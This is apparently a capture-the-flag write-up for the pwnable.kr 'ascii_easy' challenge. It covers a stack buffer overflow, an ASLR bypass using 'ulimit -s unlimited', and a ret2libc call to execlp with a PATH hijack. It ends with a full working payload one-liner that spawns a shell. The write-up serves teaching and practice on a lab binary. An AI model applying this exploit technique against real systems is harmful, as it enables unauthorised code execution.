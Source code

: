 ```yaml
---
title: Ascii_easy - Pwnable.kr
date: 2016-07-19
categories: [Writeups, Pwnable.kr]
tags: ['Ret2libc', 'Buffer overflow', 'ASLR', 'Ascii armor']
image:
    path: "/unsorted/pwnablekr.png"

---
```


As usual, we have a program: `ascii_easy`,  which has the permissions
to get the flag. After a fast reverse-engineering we can imagine that
the source code from where it comes from should look more or less
like this:

```c
#define MEM 0x80000000

int is_ascii(char c){
    if (c <= 0x1f || c > 0x7f) return 0; // 0x20 == ' ' 
    return 1;
}

void vuln(){
    
    char local[0xa8];
    strcpy(local, MEM);
}


void main(){

   char* mem = mmap( MEM, 0x1000,
                   PROT_READ   | PROT_WRITE | PROT_EXEC,
                   MAP_PRIVATE | MAP_FIXED  | MAP_ANONYMOUS,
                   -1, 0
            );

    if (mem != MEM){
        puts("mmap failed. tell admin");
        exit(1);
    }

    int i = 0;
    printf("Input text : ");
    while (i <= 0x18f){
        mem[i] = getchar();
        i++;
        if (is_ascii(mem[i]) == 0) break;
    }

    puts("triggering bug...");
    vuln();
}
```


First of all we can note that the user input must contain
only (an exception could be made for the last character to be precise)
ascii values.

Furthermore it looks like there is a buffer overflow vulnerability: 
we have the control over the first `0x18f` bytes of the memory mapped 
by `mmap`. This data provided by the user is then copied into 
a much smaller buffer into the stack, this happens inside the functon `vuln`.

The stack is not executable:

```console
ascii_easy@ubuntu:~$ readelf -l ascii_easy 

Elf file type is EXEC (Executable file)
Entry point 0x8048420
There are 9 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
  INTERP         0x000154 0x08048154 0x08048154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x00834 0x00834 R E 0x1000
  LOAD           0x000f14 0x08049f14 0x08049f14 0x00114 0x0011c RW  0x1000
  DYNAMIC        0x000f28 0x08049f28 0x08049f28 0x000c8 0x000c8 RW  0x4
  NOTE           0x000168 0x08048168 0x08048168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x0006e8 0x080486e8 0x080486e8 0x00044 0x00044 R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4
  GNU_RELRO      0x000f14 0x08049f14 0x08049f14 0x000ec 0x000ec R   0x1
```

...but it looks like the memory mapped by mmap is set to be executable,
so we could just use an ascii shellcode and somehow redirect the 
execution flow on the buffer mapped at the address `0x80000000`.

For this time I'm going to use a ret2libc style exploit, beside it is probably
what pwnable.kr is suggesting giving us these two hints:

- hint : ulimit
- hint2: system, execl, execlp ... etc

A fast search about ulimit and ret2libc exploits brought me these results:

- <https://stackoverflow.com/questions/17630745/why-ulimit-s-unlimited-can-de-aslr-in-overflow>
- <https://security.cs.pub.ro/hexcellents/wiki/kb/exploiting/home>

An old implementation of `mmaps` doesn't use ASLR when the stack size limit
is set to unlimited, and guess what...the binary `ascii_easy` is a 32bits 
architecture. So `ulimit -s unlimited` should do the work in order to have
libc mapped always at the same address.

Note: apparently this "flaw" has been 
[fixed](https://hmarco.org/bugs/CVE-2016-3672-Unlimiting-the-stack-not-longer-disables-ASLR.html)
recently.

Let's use `execlp` to spawn a shell. After the stack's size has been set to
unlimited let's figure out the address of this function:

```txt
(gdb) p execlp
$1 = {<text variable, no debug info>} 0x55643970 <execlp>
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/ascii_easy/ascii_easy 

Breakpoint 1, 0x08048516 in main ()
(gdb) p execlp
$2 = {<text variable, no debug info>} 0x55643970 <execlp>
```


As you can see the address doesn't change. And good news: each byte of this
address is a valid printable ascii character! B) Now let's find a null
terminated string containing the name of the shell:

```txt
(gdb) info sharedlibrary 
From        To          Syms Read   Shared Object Library
0x55555820  0x5556db5f  Yes (*)     /lib/ld-linux.so.2
0x555a1f70  0x556d635c  Yes (*)     /lib/i386-linux-gnu/libc.so.6
(*): Shared library is missing debugging information.

(gdb) find 0x555a1f70, +9999999, "sh\0"
0x55681299
0x556e9841
warning: Unable to access target memory at 0x55733bc5, halting search.
2 patterns found.
```


No luck here, both the address contains some character out of the range
that we are allowed to use.  
The function `execlp` uses the value of `$PATH` to search for the executables,
this means that we can just use whatever name and arrange things in order to
let `execlp` find the executable we want. Let's pick a very short name
to increase the possibilities to find a valid address:

```txt
(gdb) find 0x555a1f70, +9999999, "h\0"
0x555aacc0
0x555af742
0x555b449e
0x555b8def <raise+31>
0x555b8e07 <raise+55>
0x555c1399
0x555c1429
0x555c17e2
...
0x556e3d3c
...
```


Let's pick `0x556e3d3c` for example. Now we are ready to build the payload.

- We have a `0xa8` (168) characters long buffer to fill completely with
      whatever kind of character in order to arrive at the `ret` address
- After the buffer there will be 4 bytes containing the value of the 
      frame pointer, we can just fill it in the same way as the buffer
- We finally arrive at the return address. Here we need to put the address
      of the function we want to execute, in this case: `execlp`
- The next 4 bytes represent the address to where `execlp` will return
      if it will fail. Classic ret2libc exploits expect the address of the
      function `exit` to be here, but let's pass on it for today...
- Now we have the arguments of `execlp`: twice the address to the string
      "h\0" + a NULL pointer

and that's all. Time to get the flag:

```console
ascii_easy@ubuntu:~$ mkdir /tmp/werew
ascii_easy@ubuntu:~$ cat > /tmp/werew/h
#!/bin/sh
/bin/sh
ascii_easy@ubuntu:~$ chmod +x /tmp/werew/h
ascii_easy@ubuntu:~$ export PATH="/tmp/werew:$PATH"
ascii_easy@ubuntu:~$ (python -c 'print("A"*172 + "\x70\x39\x64\x55" + "exit" + "\x3c\x3d\x6e\x55"*2 + "\x00\x00\x00\x00" + "\n")'; cat -) | ./ascii_easy
Input text : triggering bug...
cat flag
damn you ascii armor... **** * **** ** *** ***!! :(
```






